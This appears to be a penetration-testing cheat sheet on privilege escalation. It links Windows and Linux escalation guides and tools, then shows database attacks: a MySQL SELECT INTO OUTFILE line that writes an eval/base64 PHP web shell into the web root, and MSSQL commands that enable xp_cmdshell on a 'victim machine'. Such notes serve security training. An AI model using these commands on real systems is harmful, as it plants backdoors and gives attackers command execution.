# Privilege Escalation
Operating systems have many different vectors for privilege escalation. Some are simple, some are complex, it is worth taking the time to understand how each works so you know what to look for.

## Windows Escalation
* [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)<br />
* [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)<br />
* [Dumping Windows Credentials](https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/)<br />

## Linux Escalation
* [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)<br />
* [Rebootuser Linux Enumeration & Priv Esc](https://www.rebootuser.com/?p=1623)
* [Linux Priv Checker](https://github.com/sleventyeleven/linuxprivchecker)<br />
* [LinEnum](https://github.com/rebootuser/LinEnum)

## Database Attacks
If you are able to gain access to a database, there are several ways you can use it to your advantage:

### MySQL Example<br />
If you can connect to a remote MySQL server and get command line access via:
```
root@kali:~# mysql -u root -p -h 192.168.1.100
```

You may be able to output a file to disk via the MySQL command line (you can put the base64 payload (from msfvenom, for example) into a select):
```
mysql> select "<?PHP eval(base64_decode(<base64-value-here>)); ?>" INTO OUTFILE "../../www/html/shell.php";
Query OK, 1 row affected (0.00 sec)
```

### Microsoft SQL Server Example<br />
In the event of Microsoft SQL Server you may want to check whether you can use xp_cmdshell to execute commands. The following is just one example of how you may be able to create a user and enable remote desktop on a victim machine.

Connect to server via sqsh (need to setup configuration in ~/.sqshrc first)
``` bash
root@kali:~# sqsh -S 192.168.1.100
```

Attempt to enable it
``` sql
exec sp_configure 'show advanced options', 1
go
reconfigure
go
exec sp_configure 'xp_cmdshell', 1
go
reconfigure
go
```
